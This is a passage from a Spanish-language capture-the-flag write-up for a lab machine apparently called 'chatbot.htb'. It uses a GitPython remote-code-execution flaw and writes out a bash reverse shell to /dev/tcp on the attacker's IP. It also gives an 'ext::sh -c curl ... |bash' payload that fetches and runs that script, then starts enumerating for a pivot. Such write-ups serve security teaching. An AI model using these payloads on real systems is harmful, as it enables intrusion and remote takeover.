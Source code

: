 Y una simple búsqueda en Google nos reporta que tiene una vulnerabilidad de tipo RCE. Lo podemos leer [aquí](https://github.com/gitpython-developers/GitPython/issues/1515)

![Write-up Image](images/Screenshot_11.png)

¡Y tenemos RCE!
```shell
$ sudo tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:30:29.164331 IP dev-git-auto-update.chatbot.htb > 10.10.14.71: ICMP echo request, id 1, seq 1, length 64
19:30:29.164390 IP 10.10.14.71 > dev-git-auto-update.chatbot.htb: ICMP echo reply, id 1, seq 1, length 64
19:30:30.165628 IP dev-git-auto-update.chatbot.htb > 10.10.14.71: ICMP echo request, id 1, seq 2, length 64
19:30:30.165657 IP 10.10.14.71 > dev-git-auto-update.chatbot.htb: ICMP echo reply, id 1, seq 2, length 64
19:30:31.167686 IP dev-git-auto-update.chatbot.htb > 10.10.14.71: ICMP echo request, id 1, seq 3, length 64
19:30:31.167716 IP 10.10.14.71 > dev-git-auto-update.chatbot.htb: ICMP echo reply, id 1, seq 3, length 64
```

Nos creamos un `rev.sh`
```shell
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.71/443 0>&1"
```

Nos ponemos en escucha con `netcat` y usamos este payload `ext::sh -c curl% http://10.10.14.71:8081/rev.sh|bash`


# User Pivoting 1
Enumerando la máquina víctima nos encontramos que hay una instancia de mongodb.
`tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -`
